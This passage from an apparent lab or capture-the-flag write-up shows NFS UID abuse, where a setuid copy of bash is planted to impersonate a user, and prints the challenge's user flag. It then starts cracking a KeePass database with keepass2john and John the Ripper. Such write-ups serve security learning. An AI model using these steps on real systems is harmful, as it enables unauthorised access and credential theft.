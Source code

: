 ```
```


Now, when we create new files we no longer see the uid.
```
www-data@mail01:/opt/share$ ls -al
ls -al
total 24
drwxrwxrwx 4 nobody                 nogroup 4096 Jan 31 10:20 .
drwxr-xr-x 4 root                   root    4096 Jun 17  2023 ..
-rw-r--r-- 1 root                   root    6003 Jun 18  2023 backup.tar.gz
drwxr-xr-x 5                   1000    1000 4096 Jan 31 09:23 etc
-rw-r--r-- 1                   1000    1000    0 Jan 31 10:13 id.sh
drwxr-xr-x 3                   1000    1000 4096 Jan 31 09:24 opt
-rw-r--r-- 1 peter.turner@hybrid.vl    1001    0 Jan 31 10:20 test
```


Transfer the /bin/bash binary from the target machine to our own machine and copy it back to the NFS share so we are the owner of the file.
```
www-data@mail01:/opt/share$ cp /bin/bash bash

$ cp bash /tmp
$ rm bash
$ cp /tmp/bash .
$ chmod u+s bash
```


When we execute the bash binary with the -p flag, we should now be the peter user.
```
www-data@mail01:/opt/share$ ./bash -p
id
uid=33(www-data) gid=33(www-data) euid=902601108(peter.turner@hybrid.vl) groups=33(www-data)
```


User flag: `VL{a6d5a0504a2b24fe66761abc4c96013d}`
```
bash-5.1$ cat flag.txt 
VL{a6d5a0504a2b24fe66761abc4c96013d}
```


## Privilege Escalation
In the home directory of the peter user we find a passwords.kdbx file.
```
bash-5.1$ ls
flag.txt  passwords.kdbx
```


Before being able to open the keepass file we need to get the password, for this we can use JohnTheRipper (sadly this was taking a while).
```
┌──(kali㉿kali)-[/tmp]
└─$ keepass2john passwords.kdbx > hash


┌──(kali㉿kali)-[/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash                
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```